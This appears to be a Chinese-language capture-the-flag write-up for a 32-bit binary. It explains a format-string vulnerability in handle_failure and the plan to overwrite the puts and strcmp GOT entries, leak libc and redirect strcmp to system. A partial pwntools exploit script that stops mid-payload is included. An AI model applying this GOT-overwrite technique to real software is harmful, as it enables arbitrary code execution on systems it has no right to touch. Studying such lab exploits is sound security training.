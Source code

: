 即读入一个长度为100的字符串(无溢出)，比较是否为`"sec21.\n"`，若是则打印成功信息，然后检查某全局变量是否已经被修改，如果不是则调用handle_failure。这从两个分支来看，若password正确没有任何操作的空间，我们情愿选择一个错误的password。

观察handle_failure这个函数：

```C
void handle_failure(char *buf)

{
  int iVar1;
  int in_GS_OFFSET;
  char msg [100];
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  snprintf(msg,100,"Invalid Password! %s\n",buf);
  printf(msg);
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

将buf中的内容和打印到msg中，然后利用printf打印。很明显的格式化字符串漏洞，可以任意地址读写，问题是怎么利用。由于只有一次改写的机会，而一开始我们是不知道栈上的地址的，那么确定的就只有got表的地址。printf执行完之后程序中唯一有可能执行的libc中的函数就只有全局变量secret被改变后用来打印信息的puts了，那我们就改这个puts，此外还需要改secret的值。

为了能够执行任意代码，显然我们还需要另一次的攻击，需要将rip设置为读取字符串前的某一个位置。将puts@got的值改为entry并不合适，因为在main函数开头还有puts的调用，将导致死循环。fgets调用前的位置是合适的。将puts指向该位置，即可得到再一次执行的机会。

仅仅能够再次执行还不够，第一次的漏洞利用我们除了多执行一次的机会之外什么都没做，有些浪费。在改got表的同时我们还可以泄露出strcmp的地址，从而计算出system的地址，留待后续攻击中使用。

总结一下，在第一次的格式化字符串漏洞利用中，我们需要：

1. 改写secret的值。
2. 改写puts@got为`0x80488e9`。
3. 泄露strcmp的地址。

主要思路仍然为ret2libc。main函数中strcmp的第一个参数为我们的输入，考虑将strcmp@got的值改写为system的地址，即可在下一次调用时执行任意命令。

完整的exp如下。

```python
from pwn import *

name = "pwn2_32"

elf = ELF(name)

# libc = ELF("libc-2.31-dbg.so")
libc = ELF("/usr/lib32/libc-2.33.so")

context(arch='i386', terminal = ['konsole', '-e', 'zsh', '-c'], log_level = 'info')

# p = process(['./ld-2.31-dbg.so', "./pwn1"], env = {"LD_PRELOAD": "./libc-2.31-dbg.so"})

p = elf.process()
# gdb.attach(p, gdbscript="b*0x8048847\nc\n")
offset = 15
secret = 0x804a050
print_key = 0x08048726
target = elf.entry

puts_addr = elf.got['puts']
payload = b"bb"
payload += p32(secret) #0x18
payload += p32(elf.got['puts'] + 2)
payload += p32(elf.got['puts'])
payload += p32(elf.got['strcmp'])
```